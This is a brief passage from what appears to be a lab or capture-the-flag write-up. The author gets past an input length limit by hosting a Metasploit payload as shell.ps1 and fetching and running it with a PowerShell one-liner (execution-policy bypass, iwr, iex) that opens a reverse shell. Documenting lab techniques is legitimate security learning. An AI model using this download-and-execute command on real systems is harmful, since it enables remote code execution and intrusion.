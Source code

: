 But after I pasted the payload from metasploit, it can not be used due to 1000 character limit.
![95910e919a43c9b6aa903af3783d1ba0.png](/resources/95910e919a43c9b6aa903af3783d1ba0.png)

To solve this problem, I create `shell.ps1` file with the content from metasploit and then use this simple reverse shell command which I'm familiar with from various of clickfix investigation.
```
powershell -ep bypass -c "iex (iwr -useb 'http://10.10.14.24/shell.ps1')"
```
![055d2853b19b8e895ddbc425ff45ece6.png](/resources/055d2853b19b8e895ddbc425ff45ece6.png)
